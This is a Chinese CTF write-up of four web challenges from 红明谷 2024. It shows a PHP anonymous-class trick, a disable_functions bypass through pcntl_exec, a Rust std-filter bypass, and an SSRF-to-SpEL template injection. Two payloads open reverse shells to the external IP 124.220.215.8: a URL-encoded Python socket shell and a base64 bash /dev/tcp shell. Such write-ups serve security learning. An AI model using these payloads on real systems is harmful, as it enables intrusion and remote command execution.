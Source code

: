 # 红明谷-2024-Web

  
  
&lt;!--more--&gt;  
## ezphp  
```php  
&lt;?php  
highlight_file(__FILE__);  
// flag.php  
if (isset($_POST[&#39;f&#39;])) {  
    echo hash_file(&#39;md5&#39;, $_POST[&#39;f&#39;]);  
}  
?&gt;  
```  
利用此篇文章的方法，读取文件  
https://www.synacktiv.com/en/publications/php-filter-chains-file-read-from-error-based-oracle  
```php  
&lt;?php  
if (isset($_GET[&#39;ezphpPhp8&#39;])) {  
    highlight_file(__FILE__);  
} else {  
    die(&#34;No&#34;);  
}  
$a = new class {  
    function __construct()  
    {  
    }  
  
    function getflag()  
    {  
        system(&#39;cat /flag&#39;);  
    }  
};  
unset($a);  
$a = $_GET[&#39;ezphpPhp8&#39;];  
$f = new $a();  
$f-&gt;getflag();  
?&gt;  
```  
匿名类的利用  
https://hi-arkin.com/archives/php-anonymous-stdClass.html  
`/flag.php?ezphpPhp8=class%40anonymous%00/var/www/html/flag.php%3A7%240`  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202404031633826.png)
  
## playground  
访问`/www.zip`，得到  
```log  
[2022-01-01 12:34:56]  Authentication successful - User: admin Pass: 2e525e29e465f45d8d7c56319fe73036  
```  
替换`Authorization: Basic YWRtaW46MmU1MjVlMjllNDY1ZjQ1ZDhkN2M1NjMxOWZlNzMwMzY=`  
利用`readfile`得到`disable_function`  
```ini  
eval,assert,fwrite,file_put_contents,phpinfo,pcntl_alarm,pcntl_fork,pcntl_waitpid,pcntl_wait,pcntl_wifexited,pcntl_wifstopped,pcntl_wifsignaled,pcntl_wifcontinued,pcntl_wexitstatus,pcntl_wtermsig,pcntl_wstopsig,pcntl_signal,pcntl_signal_get_handler,pcntl_signal_dispatch,pcntl_get_last_error,pcntl_strerror,pcntl_sigprocmask,pcntl_sigwaitinfo,pcntl_sigtimedwait,pcntl_getpriority,pcntl_setpriority,pcntl_async_signals,system,exec,shell_exec,popen,proc_open,passthru,symlink,lin,putenv,mail,chroot,chgrp,dl,readlink  
```  
`pcntl_exec`没有被过滤，利用`Python`反弹`shell`  
```php  
/?cmd=pcntl_exec(&#39;/usr/bin/python&#39;,[&#39;-c&#39;,&#39;%69%6d%70%6f%72%74%20%73%6f%63%6b%65%74%2c%73%75%62%70%72%6f%63%65%73%73%2c%6f%73%3b%73%3d%73%6f%63%6b%65%74%2e%73%6f%63%6b%65%74%28%73%6f%63%6b%65%74%2e%41%46%5f%49%4e%45%54%2c%73%6f%63%6b%65%74%2e%53%4f%43%4b%5f%53%54%52%45%41%4d%29%3b%73%2e%63%6f%6e%6e%65%63%74%28%28%22%31%32%34%2e%32%32%30%2e%32%31%35%2e%38%22%2c%31%32%33%34%29%29%3b%6f%73%2e%64%75%70%32%28%73%2e%66%69%6c%65%6e%6f%28%29%2c%30%29%3b%20%6f%73%2e%64%75%70%32%28%73%2e%66%69%6c%65%6e%6f%28%29%2c%31%29%3b%6f%73%2e%64%75%70%32%28%73%2e%66%69%6c%65%6e%6f%28%29%2c%32%29%3b%69%6d%70%6f%72%74%20%70%74%79%3b%20%70%74%79%2e%73%70%61%77%6e%28%22%73%68%22%29&#39;]);  
```  
但是`flag`为`admin`权限需要提权  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202404031615181.png)
在`config.inc.php`里面发现密码，但是并没有开启相关服务，  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202404031327074.png)
在`/etc/passwd`中发现`admin`用户，猜测可能密码复用，利用su进行提权  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202404031327939.png)
## unauth  
```rust  
#[macro_use] extern crate rocket;  
  
use std::fs;  
use std::fs::File;  
use std::io::Write;  
use std::process::Command;  
use rand::Rng;  
  
#[get(&#34;/&#34;)]  
fn index() -&gt; String {  
    fs::read_to_string(&#34;main.rs&#34;).unwrap_or(String::default())  
}  
  
#[post(&#34;/rust_code&#34;, data = &#34;&lt;code&gt;&#34;)]  
fn run_rust_code(code: String) -&gt; String{  
    if code.contains(&#34;std&#34;) {  
        return &#34;Error: std is not allowed&#34;.to_string();  
    }  
    //generate a random 5 length file name  
    let file_name = rand::thread_rng()  
        .sample_iter(&amp;rand::distributions::Alphanumeric)  
        .take(5)  
        .map(char::from)  
        .collect::&lt;String&gt;();  
    if let Ok(mut file) = File::create(format!(&#34;playground/{}.rs&#34;, &amp;file_name)) {  
        file.write_all(code.as_bytes());  
    }  
    if let Ok(build_output) = Command::new(&#34;rustc&#34;)  
        .arg(format!(&#34;playground/{}.rs&#34;,&amp;file_name))  
        .arg(&#34;-C&#34;)  
        .arg(&#34;debuginfo=0&#34;)  
        .arg(&#34;-C&#34;)  
        .arg(&#34;opt-level=3&#34;)  
        .arg(&#34;-o&#34;)  
        .arg(format!(&#34;playground/{}&#34;,&amp;file_name))  
        .output() {  
        if !build_output.status.success(){  
            fs::remove_file(format!(&#34;playground/{}.rs&#34;,&amp;file_name));  
            return String::from_utf8_lossy(build_output.stderr.as_slice()).to_string();  
        }  
    }  
    fs::remove_file(format!(&#34;playground/{}.rs&#34;,&amp;file_name));  
    if let Ok(output) = Command::new(format!(&#34;playground/{}&#34;,&amp;file_name))  
        .output() {  
        if !output.status.success(){  
            fs::remove_file(format!(&#34;playground/{}&#34;,&amp;file_name));  
            return String::from_utf8_lossy(output.stderr.as_slice()).to_string();  
        } else{  
            fs::remove_file(format!(&#34;playground/{}&#34;,&amp;file_name));  
            return String::from_utf8_lossy(output.stdout.as_slice()).to_string();  
        }  
    }  
    return String::default();  
  
}  
  
#[launch]  
fn rocket() -&gt; _ {  
    let figment = rocket::Config::figment()  
        .merge((&#34;address&#34;, &#34;0.0.0.0&#34;));  
    rocket::custom(figment).mount(&#34;/&#34;, routes![index,run_rust_code])  
}  
```  
限制了`std`，利用内联写C进行绕过  
```c  
extern &#34;C&#34; {fn system(s: *const u8) -&gt; i32;}  
fn main() {  
		unsafe{system(b&#34;cat /flag&#34; as *const u8)};  
}  
```  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202404031345685.png)
## Simp1escape  
CurlController下存在SSRF漏洞，但是限制了不能是本地IP，利用302跳转绕过  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202404031551190.png)
结合`AdminController`存在`Thymelaef`模版注入(只允许本地访问)  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202404031551557.png)
打一发模版注入漏洞  
https://boogipop.com/2024/01/29/RealWorld%20CTF%206th%20%E6%AD%A3%E8%B5%9B_%E4%BD%93%E9%AA%8C%E8%B5%9B%20%E9%83%A8%E5%88%86%20Web%20Writeup/#chatterbox%EF%BC%88solved%EF%BC%89  
`exp.php`  
```php  
&lt;?php  
header(&#34;Location:http://127.0.0.1:8080/getsites?hostname=%5B%5B%24%7BT(java.lang.Boolean).forName(%22com.fasterxml.jackson.databind.ObjectMapper%22).newInstance().readValue(%22%7B%7D%22%2CT(org.springframework.expression.spel.standard.SpelExpressionParser)).parseExpression(%22T(Runtime).getRuntime().exec(&#39;bash%20-c%20%7Becho%2CYmFzaCAtaSA%2BJiAvZGV2L3RjcC8xMjQuMjIwLjIxNS44LzEyMzQgMD4mMQ%3D%3D%7D%7C%7Bbase64%2C-d%7D%7C%7Bbash%2C-i%7D&#39;)%22).getValue()%7D%5D%5D&#34;);  
?&gt;  
```  
`/curl?url=http://ip:80/exp.php`  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202404031758242.png)
  

---

> Author: N1Rvana  
> URL: http://localhost:1313/%E7%BA%A2%E6%98%8E%E8%B0%B7-2024-web/  

